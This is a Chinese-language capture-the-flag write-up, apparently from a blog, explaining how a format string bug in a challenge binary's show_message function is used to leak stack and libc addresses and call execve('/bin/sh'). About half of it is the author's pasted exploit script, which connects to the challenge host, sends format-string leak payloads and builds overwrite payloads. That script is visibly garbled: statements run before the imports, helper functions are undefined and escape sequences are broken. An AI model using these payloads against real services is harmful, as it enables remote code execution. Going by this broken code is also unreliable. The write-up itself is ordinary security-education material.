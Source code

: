 
<p style="text-indent: 2em;">
  很明显我们可以发现，guess_number是没有用的，leave_message和show_message才是我们需要注意的重点，show_message中是直接调用printf(src)进行的输出，而src是我们输入的字符串，很显然，这里是再明显不过了的格式化字符串溢出漏洞了，我们需要想的只是溢出之后怎么拿到shell。
</p>

<p style="text-indent: 2em;">
  毫无疑问，我们这里完全可以仿照PWN200的方法，先输出libc中某个函数的真实地址，然后算出execve的地址，而调用execve所需的字符串/bin/sh我们可以直接通过栈传递进去，不用写到GOT表那里了，因为这一次通过格式化字符串漏洞我们是知道栈地址的。
</p>

<p style="text-indent: 2em;">
  然后这题比较蛋疼的是，他输出既有用puts，也有用printf，然后我当时为了偷懒，就想用puts来输出地址，然后不知道为什么总是错，后来换用printf来输出就好了，就为了这个问题，当时硬生生熬到凌晨两三点人都快不行了才搞出来。
</p>

<p style="text-indent: 2em;">
  然后，后来还了解到，栈中是有libc的加载地址的，于是乎，可以直接就在栈中找就好了，方便点。
</p>

<p style="text-indent: 2em;">
  下面还是贴下我比赛时的程序，因为当时实在不知道错哪了，还在本地把那个程序跑起来了进行本地实验，然后代码现在确实有点分不太清楚哪些是最终通过的代码部分了，因为当时一做出来就去睡了，再没看了，所以先全部贴出来吧，要是将来啥时候有闲情，再来整理下吧：
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python
#encoding:utf-8

s.send(&#39;2n&#39;)
s.recv(4096)
s.send(&#39;0x%266$08x&nbsp;0x%277$08xn&#39;)
s.recv(4096)
s.send(&#39;3n&#39;)
s.recv(4096)

import&nbsp;socket
import&nbsp;binascii

s&nbsp;=&nbsp;socket.socket(socket.AF_INET,&nbsp;socket.SOCK_STREAM)
#&nbsp;s.connect((&#39;218.2.197.248&#39;,&nbsp;10002))
s.connect((&#39;10.211.55.10&#39;,&nbsp;8888))
s.send(&#39;2n&#39;)
s.recv(4096)
s.send(&#39;0x%266$08x&nbsp;0x%265$08x&nbsp;0x%267$08xn&#39;)
s.recv(4096)
s.send(&#39;3n&#39;)
ret&nbsp;=&nbsp;s.recv(4096)
while&nbsp;ret.find(&#39;0x&#39;)&nbsp;==&nbsp;-1:
&nbsp;&nbsp;&nbsp;&nbsp;ret&nbsp;+=&nbsp;s.recv(4096)

pos&nbsp;=&nbsp;ret.find(&#39;0x&#39;)
ebp&nbsp;=&nbsp;int(ret[pos&nbsp;+&nbsp;2:pos&nbsp;+&nbsp;10],&nbsp;16)
#&nbsp;binascii.hexlify(binascii.unhexlify(hex(ebp&nbsp;-&nbsp;0x30&nbsp;-&nbsp;0x40c&nbsp;+&nbsp;64&nbsp;+&nbsp;240)[2:])[::-1])

first&nbsp;=&nbsp;calc(ebp&nbsp;-&nbsp;0x30&nbsp;+&nbsp;4)
#&nbsp;second&nbsp;=&nbsp;fill(0x30,&nbsp;&#39;e0840408&#39;&#39;9f880408&#39;&#39;18910408&#39;)
second&nbsp;=&nbsp;fill(0x80,&nbsp;&#39;e0840408&#39;&#39;70850408&#39;&#39;04910408&#39;)
if&nbsp;first.find(&#39;x00&#39;)&nbsp;!=&nbsp;-1&nbsp;or&nbsp;second.find(&#39;x00&#39;)&nbsp;!=&nbsp;-1:
&nbsp;&nbsp;&nbsp;&nbsp;raise&nbsp;RuntimeError()
